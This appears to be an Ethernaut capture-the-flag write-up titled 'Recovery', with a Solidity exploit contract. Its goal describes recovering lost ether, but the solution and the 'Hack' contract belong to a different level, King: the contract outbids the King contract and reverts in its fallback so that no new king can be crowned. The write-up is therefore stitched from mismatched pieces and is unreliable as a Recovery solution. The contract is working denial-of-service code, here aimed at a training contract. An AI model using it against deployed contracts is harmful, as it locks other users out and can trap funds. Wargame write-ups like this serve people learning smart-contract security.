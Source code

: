 # Recovery Ethernaut

## Goals

=> This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

### Hints

- None

### Solution

- The weakness lies in the transfer funds to the previous king function which will trigger the fallback function in another contract, if we just revert in that fallback function, no new king will be set since we always revert.

- Just deploy the Hack contract with a msg.value >= prize and from now on no one can become the new King.

### Contract

```solidity
contract Hack {
    King king;

    constructor(address _king) payable {
        king = King(payable(_king));
        (bool success, ) = payable(king).call{value: msg.value}("");
        require(success, "bid failed");
    }

    fallback() external {
        revert();
    }
}
```
